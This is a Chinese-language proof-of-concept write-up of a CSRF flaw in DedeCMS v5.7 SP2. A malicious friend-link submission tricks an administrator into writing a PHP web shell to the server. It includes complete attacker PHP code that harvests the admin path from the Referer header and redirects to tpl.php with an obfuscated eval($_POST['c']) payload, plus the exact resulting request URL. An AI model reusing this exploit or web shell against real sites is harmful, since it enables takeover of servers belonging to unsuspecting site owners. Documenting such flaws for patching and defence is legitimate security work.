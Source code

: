 # DedeCMS_v5.7_友情链接CSRF_GetShell

## Affected Version

DedeCMS-V5.7-UTF8-SP2  （ 发布日期  2017-03-15 ）

下载地址： 链接: https://pan.baidu.com/s/1bprjPx1 密码: mwdq


## PoC

该版本在新建&修改标签功能（可以写PHP文件到本地）存在CSRF漏洞，通过申请友情链接的方式，诱使管理员点击，从而从 Referer 中拿到 后台路径，进而以管理员的身份写一句话到服务器上 GetShell 。

测试：

1. 申请友链

![](DedeCMS_v5.7_友情链接CSRF_GetShell/apply.png)

2. 编辑 友链 信息

![](DedeCMS_v5.7_友情链接CSRF_GetShell/edit.png)

dedecms_csrf.php 的内容如下：

    <?php
    $referer = $_SERVER['HTTP_REFERER'];
    $dede_login = str_replace("friendlink_main.php","",$referer);//去掉friendlink_main.php，取得dede后台的路径
    $muma = '<'.'?'.'@'.'e'.'v'.'a'.'l'.'('.'$'.'_'.'P'.'O'.'S'.'T'.'['.'\''.'c'.'\''.']'.')'.';'.'?'.'>';
    $exp = 'tpl.php?action=savetagfile&actiondo=addnewtag&content='. $muma .'&filename=shell.lib.php';
    $url = $dede_login.$exp;
    header("location: ".$url);
    exit();

3. 管理员登陆后台后 对 友链进行审核

![](DedeCMS_v5.7_友情链接CSRF_GetShell/link_list.png)

4. 审核的时候一般都会点击 地址 看一下网站的内容，由于友链中使用了header 跳转，所以结果其实是访问了 `http://localhost/DedeCMS/DedeCMS-V5.7-GBK-SP2-20170315/uploads/dede/tpl.php?action=savetagfile&actiondo=addnewtag&content=%3C?@eval($_POST[%27c%27]);?%3E&filename=shell.lib.php` 请求。

![](DedeCMS_v5.7_友情链接CSRF_GetShell/click_res.png)

5. 查看写入到服务器的一句话 `shell.lib.php`

![](DedeCMS_v5.7_友情链接CSRF_GetShell/shell.png)

## References

1. http://0day5.com/archives/4209/
